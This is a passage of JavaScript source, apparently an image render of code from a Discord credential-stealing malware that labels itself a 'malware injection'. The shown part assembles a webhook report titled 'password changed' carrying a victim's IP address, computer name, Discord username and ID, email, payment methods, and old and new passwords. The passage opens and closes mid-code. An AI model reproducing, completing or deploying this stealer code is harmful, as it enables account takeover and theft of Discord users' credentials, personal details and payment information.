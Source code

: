                                                     return "\`❌\`"
                                                } else if (z.type == 2 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                                } else if (z.type == 1 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " :credit_card:"
                                                } else {
                                                    return "\`❌\`"
                                                }
                                            })
                                            if (billing == "") {
                                                billing = "\`❌\`"
                                            }
                                            return billing
                                        }
                                        const json = JSON.parse(info);
                                        var params = {
                                            username: "fantasy",
                                            content: "",
                                            embeds: [{
                                                "title": "password changed",
                                                "color": config['embed-color'],
                                                "fields": [{
                                                    name: "malware injection",
                                                    value: `\`\`\`injectioninfo: \n${discordInstall}\n\`\`\``,
                                                    inline: !1
                                                }, {
                                                    name: "ip:",
                                                    value: `\`${ip}\``,
                                                    inline: !0
                                                }, {
                                                    name: "pc name:",
                                                    value: `\`${computerName}\``,
                                                    inline: !0
                                                }, {
                                                    name: "username:",
                                                    value: `\`${json.username}#${json.discriminator}\``,
                                                    inline: !0
                                                }, {
                                                    name: "id:",
                                                    value: `\`${json.id}\``,
                                                    inline: !0
                                                }, {
                                                    name: "nitro:",
                                                    value: `${getNitro(json.premium_type)}`,
                                                    inline: !0
                                                }, {
                                                    name: "badges:",
                                                    value: `${getBadges(json.flags)}`,
                                                    inline: !0
                                                }, {
                                                    name: "payment method:",
                                                    value: `${cool()}`,
                                                    inline: !0
                                                }, {
                                                    name: "email:",
                                                    value: `\`${json.email}\``,
                                                    inline: !0
                                                }, {
                                                    name: "old password:",
                                                    value: `\`${oldpassword}\``,
                                                    inline: !0
                                                }, {
                                                    name: "new password:",
                                                    value: `\`${newpassword}\``,